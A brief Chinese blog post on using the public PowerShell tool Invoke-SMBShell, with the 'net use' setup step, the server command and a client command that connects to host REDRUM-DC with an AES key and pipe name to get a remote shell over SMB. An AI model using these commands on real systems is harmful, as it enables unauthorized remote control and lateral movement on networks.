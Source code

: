 ```yaml
---
author: heh3.org
comments: true
date: 2017-02-14 09:26:12+00:00
layout: post
link: http://heh3.org/?p=8
slug: '%e9%80%9a%e8%bf%87powershell%e6%9e%84%e5%bb%basmbshell'
title: 通过powershell构建SMBshell
wordpress_id: 8
categories:
- ps
- tools
tags:
- powershell
- smbshell
---
```


## 通过powershell构建SMBshell


[https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-SMBShell.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-SMBShell.ps1)

建立连接之前需要使用net use 建立一个连接smb连接
(eg: net use \server\share)


### 服务端：


先导入模块，import module Invoke-SMBShell

`C:\PS> Invoke-SMBShell`

![](http://i.imgur.com/njsGTkp.png)


### 客户端：


`C:\PS> Invoke-SMBShell -Client -Server REDRUM-DC -AESKey dFqeSRa5IVD7Daby -Pipe tapsrv.5604.w6YjHCgSOVpoXOZF`

![](http://i.imgur.com/r53EHXv.png)
